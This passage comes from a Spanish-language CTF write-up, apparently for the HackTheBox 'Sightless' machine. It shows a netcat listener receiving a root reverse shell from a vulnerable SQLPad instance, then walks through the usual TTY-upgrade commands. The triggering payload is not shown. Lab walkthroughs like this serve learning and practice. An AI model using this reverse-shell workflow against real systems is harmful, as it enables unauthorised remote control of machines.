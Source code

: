 ![Vulnerable](/assets/writeups/sightless/4.png)

Al dejar un netcat en escucha, rellenar los campos y ejecutar la petición, efectivamente obtendremos una consola interactiva

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.32 35582
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# script /dev/null -c bash # Inicia un nuevo proceso
script /dev/null -c bash
Script started, file is /dev/null
root@c184118df0a6:/var/lib/sqlpad# ^Z # CTRL + Z
[1]  + 22336 suspended  nc -lvnp 443

❯ stty raw -echo; fg # Pasar controles de la terminal
[1]  + 22336 continued  nc -lvnp 443
                                    reset xterm  # Reiniciar la terminal
root@c184118df0a6:/var/lib/sqlpad# export TERM=xterm-256color # Establecer tipo de terminal
root@c184118df0a6:/var/lib/sqlpad# stty rows 34 columns 149 # Establecer filas y columnas
root@c184118df0a6:/var/lib/sqlpad# source /etc/skel/.bashrc # Colores!
```
